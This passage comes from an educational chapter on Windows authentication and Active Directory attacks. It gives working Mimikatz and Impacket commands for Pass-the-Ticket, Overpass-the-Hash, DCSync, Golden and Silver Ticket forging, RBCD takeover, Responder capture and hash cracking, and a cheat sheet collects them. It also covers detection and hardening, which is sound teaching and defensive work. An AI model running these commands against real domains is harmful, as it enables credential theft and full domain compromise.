Inject a stolen TGT into your current session and become that user for network access:
```
mimikatz # kerberos::ptt jsmith@krbtgt-CORP.LOCAL.kirbi
```
Now `dir \\dc01\c$` works as `jsmith` with no password — you're *using their ticket*.

### Step 3 — Overpass-the-Hash (hash → ticket)

If you have the NT hash but want *Kerberos* access (quieter than NTLM, avoids some detections), turn the hash into a fresh TGT:
```
mimikatz # sekurlsa::pth /user:jsmith /domain:CORP.LOCAL /ntlm:5835048ce94ad0564e29a924a03510ef /run:powershell
```
A new PowerShell opens; the first Kerberos request mints a real TGT from the hash. This is **Overpass-the-Hash** — Pass-the-Hash's stealthier Kerberos cousin.



---

## Part 11: Forging Tickets — Golden Tickets, Silver Tickets, and DCSync

We now reach the endgame techniques. These are what "domain compromise" concretely *means*.

### DCSync — stealing hashes without touching a DC's disk

Domain Controllers replicate directory data to each other using the **Directory Replication Service (DRS)** protocol. If your account holds the replication rights (`DS-Replication-Get-Changes` + `...-All`, held by Domain Admins and, dangerously, sometimes delegated to others), you can simply *ask* a DC to replicate a user's secrets to you — no code on the DC, no LSASS dump. Mimikatz:
```
mimikatz # lsadump::dcsync /domain:CORP.LOCAL /user:krbtgt
```
```
Credentials:
  Hash NTLM: 9c7bff8a... (krbtgt)
```
Or with Impacket:
```bash
impacket-secretsdump -just-dc-user krbtgt CORP.LOCAL/da_user@192.168.56.10
```
DCSync is the standard way to grab the `krbtgt` hash — which enables the Golden Ticket.

### Golden Ticket — forging any TGT

With the `krbtgt` hash you can forge a **TGT for anyone, with any group membership, valid for years**, because you now hold the key that seals every TGT. The KDC will accept your forged PAC claiming you're a Domain Admin — you never authenticated at all.
```
mimikatz # kerberos::golden /user:Administrator /domain:CORP.LOCAL /sid:S-1-5-21-1111-2222-3333 /krbtgt:9c7bff8a... /ptt
```
That injects a forged Administrator TGT into memory. `dir \\dc01\c$` now works as Domain Admin. Because it's signed with `krbtgt`, the *only* real remediation after a Golden Ticket is to **rotate the `krbtgt` password twice** (twice, due to how the previous key is retained for replication).

### Silver Ticket — forging one service ticket

If you only have a *service account's* hash (from Kerberoasting, say), you can't forge TGTs, but you *can* forge a service ticket for that one service — a **Silver Ticket**. Quieter, because it never contacts the KDC at all (the TGS exchange is skipped entirely).
```
mimikatz # kerberos::golden /user:Administrator /domain:CORP.LOCAL /sid:S-1-5-21-... /target:db01.corp.local /service:cifs /rc4:<svc_hash> /ptt
```

| Technique | Key stolen | Forges | KDC contacted? | Remediation |
|-----------|-----------|--------|----------------|-------------|
| Golden Ticket | `krbtgt` hash | Any TGT (whole domain) | No (TGT forged) | Reset `krbtgt` **twice** |
| Silver Ticket | Service account hash | One service's ST | **No** (stealthiest) | Reset that service account |
| DCSync | Replication rights | N/A — extracts real hashes | Yes (DRS) | Remove rights; treat as full compromise |

```mermaid
graph TD
    A[Domain Admin / repl rights] --> B[DCSync krbtgt]
    B --> C[krbtgt NT hash]
    C --> D[Golden Ticket:<br/>forge any TGT]
    D --> E[Persistent Domain Admin<br/>for years]
    K[Kerberoast svc account] --> F[svc account hash]
    F --> G[Silver Ticket:<br/>forge one service ticket]
    style C fill:#402
    style E fill:#402
```

> **Bug Bounty Angle** — Golden/Silver tickets are post-DA persistence, not typically bounty material. But the *precondition* — an over-delegated account with `DS-Replication-Get-Changes-All`, or a shadow-admin path discovered via BloodHound — is exactly the kind of "effective Domain Admin via non-obvious ACL" finding that top-tier internal engagements and some enterprise VDPs pay well for. Report the ACL path, not just the endpoint.

---

## Part 12: Blue Team — Detecting Everything Above

Every attack in this chapter leaves fingerprints. Here is the concrete detection surface, mapped to Windows Security Event IDs and telemetry a SOC actually has.

### LLMNR/NBT-NS poisoning & NTLM relay
- **Prevent, don't just detect:** disable LLMNR (GPO: *Turn off multicast name resolution*) and NBT-NS; enable **SMB signing** everywhere to kill relay.
- **Detect:** injected LLMNR responders show as anomalous name-resolution and sudden `NTLMv2` auths from unexpected hosts. Honeypot: a fake host that never exists — any auth attempt to it is a poisoning attempt.

### LSASS access (Mimikatz)
- **Event ID 4656 / 4663** — a handle opened to `lsass.exe` with `PROCESS_VM_READ` (`0x0010`) is highly suspicious. Sysmon **Event ID 10** (ProcessAccess) targeting `lsass.exe` with `GrantedAccess 0x1010`/`0x1410` is the classic Mimikatz signature.
- **Detect the WDigest re-enable:** Sysmon **Event ID 13** (registry set) on `...\WDigest\UseLogonCredential = 1`.
- **Prevent:** enable **LSA Protection (RunAsPPL)** and, where possible, **Credential Guard** — it defeats `sekurlsa` outright.

### Kerberoasting / AS-REP Roasting
- **Event ID 4769** (Kerberos service ticket requested) with **encryption type `0x17` (RC4)** and a *user* requesting many SPNs in a short window = Kerberoasting. A baseline of normal 4769 volume makes the spike obvious.
- **Event ID 4768** (TGT requested) with pre-auth not required flags → AS-REP roast targets. Alert on any account with pre-auth disabled existing at all.
- **Prevent:** long (25+ char) managed service account passwords (gMSA), disable RC4, and honeypot SPN accounts (a fake kerberoastable account nobody should ever request).

### Golden/Silver Tickets & DCSync
- **DCSync:** **Event ID 4662** on a DC where a *non-DC* account requests the replication GUIDs (`1131f6aa-...`) is a near-certain DCSync. This is one of the highest-fidelity AD alerts that exists.
- **Golden Ticket:** anomalous TGT lifetimes, TGS requests (4769) with **no preceding 4768** (the TGT was forged, never issued), or tickets referencing SIDs that don't resolve.
- **Remediate a suspected `krbtgt` compromise** by resetting `krbtgt` **twice** with a replication interval between resets.



### The defensive priority list

| Control | Kills / mitigates | Effort |
|---------|-------------------|--------|
| Disable LLMNR/NBT-NS + SMB signing | Responder capture, NTLM relay | Low |
| LAPS | Local-admin hash reuse → PtH sprawl | Low |
| Credential Guard | LSASS credential theft (domain) | Medium (VBS/HW) |
| LSA Protection (RunAsPPL) | Casual Mimikatz LSASS read | Low |
| gMSA + disable RC4 | Kerberoasting | Medium |
| Tier-0 admin isolation / PAW | krbtgt exposure → Golden Ticket | High |
| Monitor 4662/4769/Sysmon 10 | Detect DCSync, roast, Mimikatz | Medium |

> **Blue Team CTF / detection challenge** — On Blue Team labs (Splunk BOTS, THM's "Investigating with Splunk", DetectionLab), the skill is turning the IDs above into working SPL/KQL: e.g. `EventCode=4769 Ticket_Encryption_Type=0x17 | stats dc(Service_Name) by Account_Name` to surface a Kerberoast spike, or hunting Sysmon EID 10 `TargetImage=*lsass.exe GrantedAccess=0x1410`. "How attackers get caught" is almost always the RC4 4769 spike, the 4662 replication anomaly, or the lsass handle.

---

## Part 13: NTLM vs Kerberos — When Each Is Used, and Why It Matters

A practical question that trips up newcomers: on a real domain, *which* protocol authenticates a given connection? The answer drives both attack choice and detection.

- **You connect to a resource by hostname/FQDN or SPN** (`\\dc01.corp.local\share`) → **Kerberos** is attempted first. The client asks the KDC for a ticket for `cifs/dc01.corp.local`.
- **You connect by raw IP address** (`\\192.168.56.30\share`) → Kerberos can't resolve an SPN for an IP, so Windows **falls back to NTLM.** This is why attackers often connect by IP: to force NTLM (relayable, PtH-able) instead of Kerberos.
- **The target is in a workgroup / no domain / no KDC reachable** → **NTLM.**
- **Cross-forest without proper trust, or legacy apps** → often **NTLM.**



This single fork explains a lot of real tradecraft: forcing NTLM to enable relaying, preferring Kerberos (Overpass-the-Hash) to *avoid* NTLM-based detections, and why "connect by IP" is a small but meaningful red-team tell that mature SOCs alert on.

---

## Part 14: The Full Logon Flow, Step by Step

To lock the whole picture together, follow a single **interactive domain logon** from keystroke to desktop. Every component from this chapter appears exactly once, in order.



Narrated:

1. **Secure Attention Sequence.** Ctrl+Alt+Del is intercepted by `winlogon.exe` at a level malware in your session can't fake — it guarantees the login box you see is the real one, not a credential-harvesting overlay. This is why "press Ctrl+Alt+Del to log on" exists at all.
2. **Credential collection.** `LogonUI` loads a **credential provider** (`credui`), which gathers the username and password (or PIN/biometric via Windows Hello). Nothing is validated yet.
3. **Hand-off to LSASS.** The credentials go to LSASS via `LsaLogonUser`. LSASS picks an authentication package. On a domain, **Kerberos is tried first**.
4. **Kerberos pre-auth.** `kerberos.dll` derives your long-term key from the password (RC4 = NT hash, or AES via PBKDF2 with a salt of `DOMAINuser`) and sends the AS-REQ with an encrypted timestamp. The DC decrypts it with its stored key — if it matches, your password is proven *without the password ever leaving the machine*.
5. **TGT issued and cached.** The DC returns the TGT (sealed with `krbtgt`) plus a session key. LSASS stashes both in memory — this is the ticket cache Mimikatz `sekurlsa::tickets` loots.
6. **Token construction.** LSASS builds your **access token** from the PAC's SIDs and group memberships (the exact token object from Chapter 1). `winlogon` attaches it to your session and launches `userinit.exe`, which spawns the shell. Desktop appears.

If Kerberos is unavailable (no KDC, connecting by IP, workgroup), step 4 falls back to **NTLM** via `msv1_0.dll`, and if the machine is offline, LSASS validates against **cached domain credentials** (the DCC2/MSCache hashes from the SECURITY hive). That fallback ladder — Kerberos → NTLM → cached creds — is worth memorising; it explains why a laptop still logs you in on a plane, and why those cached hashes are worth stealing.

---

## Part 15: Kerberos Delegation — Unconstrained, Constrained, and RBCD

Delegation is where Kerberos gets genuinely dangerous, and it is the source of a huge fraction of modern AD compromise. The problem it solves is real: a front-end web server needs to access a back-end database **as the user**, not as itself, so the database's own permissions apply. Delegation lets a service reuse your identity to a second hop. Done wrong, it lets an attacker who controls that service impersonate *anyone* — including Domain Admins.

There are three flavours, in increasing safety:

| Type | What it allows | The danger | AD attribute |
|------|----------------|------------|--------------|
| **Unconstrained** | Service caches the user's **full TGT** and can act as them to **anything** | Compromise the service → replay any TGT that lands on it (incl. a DC's, via coercion) | `TRUSTED_FOR_DELEGATION` |
| **Constrained (KCD)** | Service can impersonate users only to a **specific SPN list** | Protocol transition (S4U2Self + S4U2Proxy) can forge tickets to those services for *any* user | `msDS-AllowedToDelegateTo` |
| **Resource-Based (RBCD)** | The **target** resource says who may delegate to it | Write access to a computer's `msDS-AllowedToActOnBehalfOfOtherIdentity` = full takeover of that host | `msDS-AllowedToActOnBehalfOfOtherIdentity` |

### Unconstrained delegation — the TGT magnet

A host with unconstrained delegation stores, in its LSASS, a **usable TGT** for every user who authenticates to it. If you own that host, you dump those TGTs and Pass-the-Ticket as those users. The classic escalation: combine it with **coercion** (PetitPotam, PrinterBug) to *force a Domain Controller's computer account* to authenticate to your unconstrained host, capture the DC's TGT, and DCSync. Find these hosts fast:
```bash
impacket-findDelegation CORP.LOCAL/jsmith:'Summer2026!' -dc-ip 192.168.56.10
```
```
AccountName   AccountType  DelegationType              DelegationRightsTo
------------  -----------  --------------------------  ------------------
WEB01$        Computer     Unconstrained               N/A
svc_web       ServiceAcct  Constrained w/ Protocol T.  cifs/db01.corp.local
```

### Resource-Based Constrained Delegation (RBCD)

RBCD is the attacker favourite because the control lives on the *target*: if you can write the target computer's `msDS-AllowedToActOnBehalfOfOtherIdentity` (e.g. you have `GenericWrite` over it, or you created a computer account via the default `MachineAccountQuota` of 10), you point it at a computer account you control, then use **S4U2Self + S4U2Proxy** to mint a service ticket as *any user* — including `Administrator` — to that host. The full chain from a single ACL:
```bash
# 1. Create a computer account we control (MachineAccountQuota lets low-priv users do this)
impacket-addcomputer CORP.LOCAL/jsmith:'Summer2026!' -computer-name 'EVIL$' -computer-pass 'Evil123!'
# 2. Set RBCD on the target to trust EVIL$
impacket-rbcd CORP.LOCAL/jsmith:'Summer2026!' -delegate-from 'EVIL$' -delegate-to 'DB01$' -action write
# 3. Get a ticket AS Administrator TO the target
impacket-getST CORP.LOCAL/'EVIL$':'Evil123!' -spn cifs/db01.corp.local -impersonate Administrator
# 4. Pass-the-Ticket
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass CORP.LOCAL/Administrator@db01.corp.local
```

```mermaid
flowchart LR
    A[Write access to DB01<br/>msDS-AllowedToActOnBehalfOf...] --> B[Create EVIL$ computer]
    B --> C[Set RBCD: DB01 trusts EVIL$]
    C --> D[S4U2Self + S4U2Proxy<br/>ticket as Administrator]
    D --> E[SYSTEM on DB01]
    style A fill:#402
    style E fill:#402
```

> **Bug Bounty Angle / internal engagements** — Delegation misconfigurations are among the most *payable* AD findings because they turn a mundane ACL (`GenericWrite` over one computer) into full host or domain takeover. BloodHound's `AllowedToDelegate` and `AddAllowedToAct` edges surface them automatically. On an internal test, an RBCD chain from a low-priv foothold to Domain Admin is a critical, and the write-up practically writes itself: the ACL, the four commands, the resulting SYSTEM shell.

> **CTF Angle** — RBCD and constrained-delegation chains appear on harder HackTheBox AD boxes (e.g. Intelligence, Multimaster) and in the "AD delegation" rooms on TryHackMe. The reflex is `findDelegation` → identify the edge → `addcomputer`/`rbcd`/`getST` → `psexec -k`. Detection-side, watch **Event ID 4769** service-ticket requests carrying an S4U (impersonation) flag for accounts that shouldn't be delegating.

---

## Part 16: Common Pitfalls and Misconceptions

- **"Cracking the hash is the point."** Usually not — for NTLM you often don't need the plaintext at all (Pass-the-Hash). Cracking matters for Kerberoast/AS-REP loot and for password-reuse pivoting, not for basic lateral movement.
- **"NT hash and NetNTLMv2 are the same hash."** No. The **NT hash** is the stored `MD4(password)` (crack with mode 1000, replay with PtH). **NetNTLMv2** is the *challenge-response over the wire* (mode 5600) — you can crack it but you can *not* Pass-the-Hash with it. Confusing these wastes hours.
- **"Kerberos means no hashes."** The `krbtgt` key, service account keys, and your own long-term key are all still password-derived hashes. Kerberos moves the secret around less, but the secrets are still there.
- **"LSA Protection stops Mimikatz."** It stops *casual* reads; a BYOVD driver or an unprotected dump path (Task Manager → Create dump file → parse offline with `pypykatz`) can bypass it. Defense in depth (Credential Guard) is the real answer.
- **"Disabling NTLM is easy."** NTLM is load-bearing in most real environments (legacy apps, IP-based connections, local auth). Audit with the *NTLM auditing* GPO before blocking, or you'll break production.
- **"A Golden Ticket is fixed by resetting the admin password."** No — it's signed by `krbtgt`. You must reset **`krbtgt` twice**. Resetting the impersonated user does nothing.
- **Clock skew kills Kerberos.** More than ~5 minutes of time difference and every ticket is rejected. In labs, a broken NTP is the #1 cause of "Kerberos mysteriously fails, NTLM works."

---

## Part 17: Real-World Cases and CVEs

- **MS14-068 (CVE-2014-6324)** — a flaw let any domain user forge a PAC claiming Domain Admin membership inside a TGT the KDC would accept. Effectively a "Golden Ticket for anyone" without needing `krbtgt`. The archetypal PAC-forgery bug.
- **Zerologon (CVE-2020-1472)** — a cryptographic flaw in the Netlogon secure channel let an unauthenticated attacker set a DC's machine account password to empty, then DCSync every hash. From network access to full domain compromise in seconds. One of the most impactful AD CVEs ever.
- **PetitPotam / coerced authentication (MS-EFSRPC etc.)** — force a DC to authenticate to an attacker via NTLM, relay it to AD CS (ESC8) to obtain a certificate, then use the cert to get a TGT: unauthenticated domain takeover. Sparked the whole "ADCS abuse" wave (Certified Pre-Owned).
- **Kerberoasting in the wild** — repeatedly used in real intrusions (e.g. financially-motivated actors) because it's quiet and needs only one user. Weak SQL/service-account passwords set years ago remain a top real-world root cause.
- **Sam-the-Admin / noPac (CVE-2021-42278 + 42287)** — abuse of computer-account name spoofing + S4U to impersonate a DC and get a Domain Admin ticket from a single low-priv account.

These are not history lessons — they are the reason every control in Part 12 exists, and they recur (in new clothes) constantly. When a fresh AD CVE drops, it almost always abuses one of the exact mechanisms in this chapter: the PAC, the Netlogon channel, ticket forging, or coerced NTLM.

---

## Part 18: Final Revision — The One-Page Mental Model

Read this section alone to refresh the whole chapter before an exam or an engagement.

- **Windows never stores your password — only a hash.** Local hashes live in the **SAM** (with the **SYSTEM** hive holding the key); domain hashes live in **NTDS.dit** on DCs, whose `krbtgt` entry is the master ticket-signing key.
- **LSASS** (`lsass.exe`, SYSTEM) is the always-open credential vault: it holds your NT hash and Kerberos tickets in memory for Single Sign-On, and (with WDigest) sometimes your plaintext. It is *the* credential-theft target; **Credential Guard** is the strongest defence.
- **NTLM** proves knowledge of the NT hash via challenge-response without sending the password — but the hash is a permanent password-equivalent, so stealing it enables **Pass-the-Hash** forever. NetNTLMv2 (captured on the wire via Responder) is crackable but *not* replayable.
- **Kerberos** replaces "prove yourself every time" with **tickets**: a **TGT** (sealed by `krbtgt`) from the AS, exchanged at the TGS for per-service **tickets** (sealed by each service's key). The **PAC** inside carries your groups.
- **The Kerberos attacks are all exchange abuses:** **Kerberoast** (crack a service ticket → service account password), **AS-REP roast** (no pre-auth → crack AS-REP), **Golden Ticket** (steal `krbtgt` → forge any TGT), **Silver Ticket** (steal a service key → forge one ticket), **DCSync** (replication rights → pull any hash).
- **Detection anchors:** Sysmon EID 10 on lsass, 4769 with RC4 (`0x17`) for Kerberoast, 4662 replication by a non-DC for DCSync, and the WDigest registry flip.



---

## Part 19: Cheat Sheet

**Hash & secret locations**
```
Local users     HKLM\SAM   (+ SYSTEM hive for SysKey)
LSA secrets     HKLM\SECURITY
Domain (all)    C:\Windows\NTDS\NTDS.dit  (on DCs)
In memory       lsass.exe
```

**Dumping**
```bash
# Local SAM offline
reg save HKLM\SAM sam.save && reg save HKLM\SYSTEM system.save && reg save HKLM\SECURITY security.save
impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
# Domain over the wire
impacket-secretsdump CORP.LOCAL/da_user@dc01 -just-dc          # DCSync all
impacket-secretsdump -just-dc-user krbtgt CORP.LOCAL/da_user@dc01
```

**Capture / crack**
```bash
sudo responder -I eth0 -wv                 # capture NetNTLMv2
hashcat -m 5600 hash.txt rockyou.txt       # NetNTLMv2
hashcat -m 1000 nt.txt rockyou.txt         # NT hash
hashcat -m 13100 roast.txt rockyou.txt     # Kerberoast RC4
hashcat -m 18200 asrep.txt rockyou.txt     # AS-REP roast
```

**Pass / roast / forge**
```bash
impacket-psexec -hashes :<NT> Administrator@host      # Pass-the-Hash
impacket-GetUserSPNs -request CORP.LOCAL/user:pass    # Kerberoast
impacket-GetNPUsers CORP.LOCAL/ -usersfile u.txt -no-pass  # AS-REP roast
```
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords            # dump LSASS
mimikatz # sekurlsa::pth /user:u /domain:d /ntlm:<hash> /run:powershell   # Overpass-the-Hash
mimikatz # lsadump::dcsync /user:krbtgt        # DCSync
mimikatz # kerberos::golden /user:Administrator /domain:d /sid:<S-1-5-21-..> /krbtgt:<hash> /ptt  # Golden
```

**Detection quick-map**
```
Mimikatz LSASS read   Sysmon EID 10, TargetImage lsass.exe, GrantedAccess 0x1410
WDigest re-enable     Sysmon EID 13, ...\WDigest\UseLogonCredential = 1
Kerberoasting         4769, Encryption Type 0x17 (RC4), many SPNs / short window
AS-REP roastable      account with "do not require preauth" set; 4768 no-preauth
DCSync                4662 on DC, replication GUID, requested by non-DC account
```

---

## Part 20: Practice Labs & Resources

Train each specific skill from this chapter:

- **TryHackMe — "Attacking Kerberos"** and **"Persisting Active Directory"**: hands-on Kerberoasting, AS-REP roasting, Golden/Silver tickets, and DCSync in a guided lab. The most direct match for Parts 8–11.
- **TryHackMe — "Breaching Active Directory"**: LLMNR poisoning with Responder and NTLM relay — mirrors Lab A exactly.
- **HackTheBox — Forest, Sauna, Active**: canonical AS-REP roast / Kerberoast / DCSync chains. *Active* is the textbook GPP-password → Kerberoast → Domain Admin path.
- **HackTheBox — Blackfield, Sizzle, Mantis**: LSASS dumping, Silver tickets, and constrained delegation for the advanced material.
- **Splunk BOTS / THM "Investigating with Splunk" / DetectionLab**: build the blue-team half — write the 4769/4662/Sysmon-10 detections from Part 12 yourself.
- **AD attack range / GOAD ("Game of Active Directory")**: a full vulnerable-by-design multi-DC forest you own, ideal for safely reproducing every attack in this chapter end to end.
- **Mimikatz wiki & the "Kerberos & Attacks 101" / adsecurity.org writeups**: reference-grade deep dives on ticket internals and the PAC.

### Practice questions

1. You capture `jsmith::CORP:1122...:9A5C...` from Responder. Can you Pass-the-Hash with it? Why or why not — and what *can* you do with it?
2. A domain has RC4 disabled for Kerberos. Which Hashcat mode do your Kerberoast tickets need now, and why is the attack much slower?
3. A SOC sees Event ID 4662 on a DC, requested by a normal workstation account, referencing replication GUIDs. What attack is this, and what is the immediate containment step?
4. Explain, in two sentences each, the difference between a Golden Ticket and a Silver Ticket — including which key each requires and which is stealthier.
5. Auto-logon and WDigest are both off, LSA Protection is on. List two ways an attacker with local admin might still recover credential material, and the single control that would have stopped both.

---

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/windows-fundamentals/03-windows-authentication-sam-lsass-ntlm-and-kerberos-explained), with comments and the latest edits.*
